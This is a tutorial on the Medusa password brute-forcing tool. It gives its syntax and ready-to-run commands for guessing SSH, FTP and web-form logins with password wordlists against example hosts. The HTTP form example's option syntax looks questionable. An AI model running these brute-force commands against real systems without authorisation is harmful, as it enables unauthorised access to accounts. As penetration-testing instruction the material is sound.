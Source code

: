 After installing Medusa, you can use it to brute-force different protocols. Let’s go over the basic syntax and a few common use cases.

Medusa’s general syntax looks like this:

```sh
medusa -h [target IP] -u [username] -P [password list] -M [module] -t [threads]
```

- `-h`: Specifies the target host (IP address or domain name).
- `-u`: Sets the username to use during the brute-force attack.
- `-P`: Specifies the path to the password list file.
- `-M`: Select the module or protocol (such as SSH, FTP, or HTTP).
- `-t`: Sets the number of threads for parallel connections (default is 16).

### Example 1: Brute-forcing SSH

Let’s say we want to brute-force an SSH login on a remote server with the IP address `192.168.1.100`. We have a username `admin` and a password list located at `/usr/share/wordlists/passwords.txt`.

The command would look like this:

```sh
medusa -h 192.168.1.100 -u admin -P /usr/share/wordlists/passwords.txt -M ssh -t 10
```

This command tells Medusa to:

- Target `192.168.1.100`.
- Use the `ssh` module.
- Attempt to log in as the user `admin`.
- Use the passwords listed in the file `/usr/share/wordlists/passwords.txt`.
- Use 10 parallel threads for faster execution.

### Example 2: Brute-forcing FTP

For an FTP brute-force attack, the command is quite similar. Imagine the FTP server is at `192.168.1.105`, and we’re targeting the username `user123` with a password list.

Here’s the command:

```sh
medusa -h 192.168.1.105 -u user123 -P /usr/share/wordlists/passwords.txt -M ftp -t 8
```

This command will try to find the password for `user123` using the FTP protocol. It will attempt 8 parallel threads for a faster result.

### Example 3: HTTP Login Brute-Force

Brute-forcing an HTTP login page can be a bit more complicated. You need to know the form fields for username and password, and sometimes, the URL of the login action. Here’s an example of brute-forcing an HTTP login:

```sh
medusa -h example.com -U usernames.txt -P passwords.txt -M http -m FORM:/login.php:username_field=password_field -t 5
```    
